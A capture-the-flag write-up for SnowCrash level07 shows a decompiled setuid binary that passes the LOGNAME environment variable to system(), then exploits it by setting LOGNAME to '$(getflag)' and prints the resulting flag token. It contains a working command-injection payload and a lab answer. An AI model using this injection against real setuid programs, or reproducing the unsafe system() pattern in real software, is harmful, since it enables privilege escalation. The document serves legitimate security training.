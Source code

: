 when we enter we see a single executable with s permits

```bash
level07@SnowCrash:~$ ls -la
total 24
dr-x------ 1 level07 level07  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level07 level07  220 Apr  3  2012 .bash_logout
-r-x------ 1 level07 level07 3518 Aug 30  2015 .bashrc
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07
-r-x------ 1 level07 level07  675 Apr  3  2012 .profile
```

Decompiling that binary with ghidra

```C
/* WARNING: Unknown calling convention */

int main(int argc,char **argv,char **envp)

{
  char *pcVar1;
  int iVar2;
  char *buffer;
  gid_t gid;
  uid_t uid;
  char *local_1c;
  __gid_t local_18;
  __uid_t local_14;
  
  local_18 = getegid();
  local_14 = geteuid();
  setresgid(local_18,local_18,local_18);
  setresuid(local_14,local_14,local_14);
  local_1c = (char *)0x0;
  pcVar1 = getenv("LOGNAME");
  asprintf(&local_1c,"/bin/echo %s ",pcVar1);
  iVar2 = system(local_1c);
  return iVar2;
}
```

so we see that it runs echo whatever is in the env variable logname manipulating
it we get

```bash
level07@SnowCrash:~$ export 'LOGNAME=$(getflag)'
level07@SnowCrash:~$ ./level07 
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```